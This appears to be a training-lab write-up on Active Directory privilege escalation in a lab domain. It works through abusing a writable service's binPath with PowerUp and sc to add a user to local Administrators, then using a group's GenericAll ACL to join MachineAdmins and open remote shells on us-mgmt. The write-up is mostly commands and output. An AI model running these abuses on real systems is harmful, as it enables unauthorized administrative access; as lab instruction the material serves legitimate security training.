




# Privilege Escalation

## Local Privilege Escalation via Service Abuse

### Lab: Hands-On #05.1

#### Tasks

- Exploit a service on `student51` and elevate privileges to local administrator

#### Tools

- `InviShell`
- `PowerUp` (alternative: `AccessChk` + `sc`)

#### Solution

- Exploit a service on `student51` and elevate privileges to local administrator

We can use any tool from PowerUp, beRoot, Invoke-Privesc or AccessChk from the SysInternals suite to look for service related issues.

**PowerUp**

```
C:\AD\Tools> C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat

[SNIP]

PS C:\AD\Tools> Import-Module C:\AD\Tools\PowerUp.ps1

PS C:\AD\Tools> Invoke-AllChecks

[SNIP]

[*] Checking service permissions...
ServiceName   : ALG
Path          : C:\WINDOWS\System32\alg.exe
StartName     : LocalSystem
AbuseFunction : Invoke-ServiceAbuse -Name 'ALG'
CanRestart    : True

[SNIP]

PS C:\AD\Tools> Invoke-ServiceAbuse -Name ALG -UserName us\studentuser51 -Verbose

[SNIP]

ServiceAbused Command
------------- -------
ALG           net localgroup Administrators us\studentuser51 /add
```

We can see that the `us\studentuser51` is a local administrator now.
Just logoff and logon again and we have local administrator privileges.

```
PS C:\Users\studentuser51> net localgroup administrators

[SNIP]

Members
-------------------------------------------------------------------------------
Administrator
US\Domain Admins
US\studentuser51

[SNIP]
```

**AccessChk**

The same attack can be executed with `accessch64.exe` from Sysinternals.

```
PS C:\AD\Tools> C:\AD\Tools\AccessChk\accesschk64.exe -uwcqv 'studentuser51' *

[SNIP]

RW ALG
        SERVICE_ALL_ACCESS

[SNIP]
```

We can see that the `studentuser51` has Full Permissions on ALG service.
Let's abuse the permissions manually.

```
PS C:\AD\Tools> sc config ALG binPath= "net localgroup administrators us\studentuserx /add"

[SC] ChangeServiceConfig SUCCESS
```

---
---

## Domain Privilege Escalation via Group/ACL Abuse

### Lab: Hands-On #05.2

#### Tasks

- Identify a machine in the domain where `studentuser51` has local administrative access due to group membership

#### Tools

- `PowerView` (alternative: `ADModule`)
- `winrs` (alternative: `Enter-PSSession`)
- `BloodHound`

#### Solution

- Identify a machine in the domain where `studentuser51` has local administrative access due to group membership

Now, we need to identify a machine in the domain where `studentuser51` has local administrative access.

**PowerView**

```
PS C:\AD\Tools> Find-LocalAdminAccess -Verbose

❌
```

We got no output.
Similar results for `Find-WMILocalAdminAccess.ps1` and `Find-PSRemotingLocalAdminAccess.ps1`.

Let's enumerate group memberships for `studentuser51`.

**AD Module**

⚠️ The ActiveDirectory module command `Get-ADPrinicpalGroupMemebsrhip` does not provide ability to recursively look for group membership.
⭐ Therefore, we can use the following simple PowerShell code from InvisiShell.

```powershell
function Get-ADPrincipalGroupMembershipRecursive ($SamAccountName)
{
	$groups = @(Get-ADPrincipalGroupMembership -Identity $SamAccountName | select -ExpandProperty distinguishedname)
	$groups
	if ($groups.count -gt 0)
	{ 
		foreach ($group in $groups)
		{ 
		Get-ADPrincipalGroupMembershipRecursive $group
		}
	}
}
```

Note that the code uses the ActiveDirectory module so that should be imported first.

```
PS C:\AD\Tools> function Get-ADPrincipalGroupMembershipRecursive ($u) { @(Get-ADPrincipalGroupMembership -Identity $u | select -ExpandProperty distinguishedName) + @(Get-ADPrincipalGroupMembership -Identity $u | foreach { Get-ADPrincipalGroupMembershipRecursive $_.distinguishedName }) }

PS C:\AD\Tools> Get-ADPrincipalGroupMembershipRecursive 'studentuser51'

CN=Domain Users,CN=Users,DC=us,DC=techcorp,DC=local
CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
CN=Users,CN=Builtin,DC=us,DC=techcorp,DC=local
CN=MaintenanceUsers,CN=Users,DC=us,DC=techcorp,DC=local
CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
```

**PowerView**

```
PS C:\AD\Tools> Get-DomainGroup -UserName studentuser51 | select -expand distinguishedname

CN=MaintenanceUsers,CN=Users,DC=us,DC=techcorp,DC=local
CN=StudentUsers,CN=Users,DC=us,DC=techcorp,DC=local
CN=Domain Users,CN=Users,DC=us,DC=techcorp,DC=local
CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
```

Let's check if any of the above groups has interesting ACL entries.
After trying for multiple groups, we will find out that `us\managers` group does have some interesting permissions.

```
PS C:\AD\Tools> Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match 'managers'}

[SNIP]

ObjectDN                : OU=Mgmt 📑,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll 🔐
ObjectAceType           : All
AceFlags                : ContainerInherit, InheritOnly
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers 👥
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

[SNIP]

ObjectDN                : CN=US-MGMT 🖥️,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll 🔐
ObjectAceType           : All
AceFlags                : ContainerInherit, InheritOnly, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers 👥
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

[SNIP]

ObjectDN                : CN=MachineAdmins 👥,OU=Mgmt,DC=us,DC=techcorp,DC=local
AceQualifier            : AccessAllowed
ActiveDirectoryRights   : GenericAll 🔐
ObjectAceType           : All
AceFlags                : ContainerInherit, Inherited
AceType                 : AccessAllowedObject
InheritanceFlags        : ContainerInherit
SecurityIdentifier      : S-1-5-21-210670787-2521448726-163245708-1117
IdentityReferenceName   : managers 👥
IdentityReferenceDomain : us.techcorp.local
IdentityReferenceDN     : CN=Managers,CN=Users,DC=us,DC=techcorp,DC=local
IdentityReferenceClass  : group

[SNIP]
```

We can check the ACEs quickly using `Get-DomainsObjectACL` from PowerView.

```
PS C:\AD\Tools> Get-DomainObjectAcl -Identity machineadmins -ResolveGUIDs | ForEach-Object {$_ | Add-Member NoteProperty 'IdentityName' $(Convert-SidToName $_.SecurityIdentifier);$_} | ?{$_.IdentityName -match 'managers'}

[SNIP]

AceQualifier           : AccessAllowed
ObjectDN               : CN=MachineAdmins 👥,OU=Mgmt,DC=us,DC=techcorp,DC=local
ActiveDirectoryRights  : GenericAll 🔐
ObjectAceType          : All
ObjectSID              : S-1-5-21-210670787-2521448726-163245708-1118
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : InheritedObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-210670787-2521448726-163245708-1117
AccessMask             : 983551
AuditFlags             : None
IsInherited            : True
AceFlags               : ContainerInherit, Inherited
InheritedObjectAceType : Group
OpaqueLength           : 0
IdentityName           : US\managers 👥

[SNIP]
```

So, `studentuser51` through group membership of 'Managers' group has GenericAll rights on `machineadmins` group.
Recall from previous hands-on (#02) that `machineadmins` has membership of a local group ('Administrators') in the `Mgmt` OU.

Also, if we have a look at the `machineadmins` group, its description explains a lot.

**PowerView**

```
PS C:\AD\Tools> Get-DomainGroup -Identity machineadmins

grouptype             : GLOBAL_SCOPE, SECURITY
displayname           : MachineAdmins
samaccounttype        : GROUP_OBJECT
samaccountname        : machineadmins
whenchanged           : 4/23/2025 3:05:50 PM
objectsid             : S-1-5-21-210670787-2521448726-163245708-1118
objectclass           : {top, group}
cn                    : MachineAdmins
usnchanged            : 2693810
dscorepropagationdata : {7/30/2019 12:35:19 PM, 7/10/2019 4:00:03 PM, 7/10/2019 4:00:03 PM, 7/8/2019 10:18:09 AM...}
name                  : MachineAdmins 👥
description           : Group to manage machines of the Mgmt OU 📌
distinguishedname     : CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local
member                : CN=studentuser67,CN=Users,DC=us,DC=techcorp,DC=local
usncreated            : 38203
whencreated           : 7/7/2019 7:10:31 AM
instancetype          : 4
objectguid            : a02c806e-f233-4c39-a0cc-adf37628365a
objectcategory        : CN=Group,CN=Schema,CN=Configuration,DC=techcorp,DC=local
```

Let's add `studentuser51` to `machineadmins` group as we have GenericAll permissions on the group.

**AD Module**

```
PS C:\AD\Tools> Add-ADGroupMember -Identity MachineAdmins -Members studentuser51 -Verbose

VERBOSE: Performing the operation "Set" on target "CN=MachineAdmins,OU=Mgmt,DC=us,DC=techcorp,DC=local".
```

```
PS C:\AD\Tools> Get-ADGroupMember -Identity "MachineAdmins" -Recursive

distinguishedName : CN=studentuser51,CN=Users,DC=us,DC=techcorp,DC=local
name              : studentuser51 👤
objectClass       : user
objectGUID        : 2765d147-caa0-4573-af7c-dd1c1b27ab57
SamAccountName    : studentuser51
SID               : S-1-5-21-210670787-2521448726-163245708-19121
```

Now, check if we have administrative access to the `us-mgmt` machine in the `Mgmt` OU (it is the only machine in that OU).

Note that we need to clear our existing TGT so that the new group membership is assigned in the new TGT. So, a logoff and logon may be required.

We can use winrs for accessing `us-mgmt`.

```
PS C:\Users\studentuser51> winrs -r:us-mgmt cmd

Microsoft Windows [Version 10.0.17763.5329]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\studentuser51>
🚀

C:\Users\studentuser51> set username
USERNAME=studentuser51 👤

C:\Users\studentuser51> set computername
COMPUTERNAME=US-MGMT 🖥️
```

We can also try with PowerShell Remoting.
Note that it will have verbose logging on the remote machine.

```
PS C:\Users\studentuser51> $usmgmt = New-PSSession us-mgmt
PS C:\Users\studentuser51> Enter-PSSession $usmgmt

[us-mgmt]: PS C:\Users\studentuser51\Documents> $env:username
studentuser51 👤

[us-mgmt]: PS C:\Users\TEMP\Documents> $env:computername
US-MGMT 🖥️
```

**BloodHound**

Using BloodHound, you can search for `studentuser51` node and check out the 'Group Delegated Object Control' under 'Outbound Object Control'.









---
---
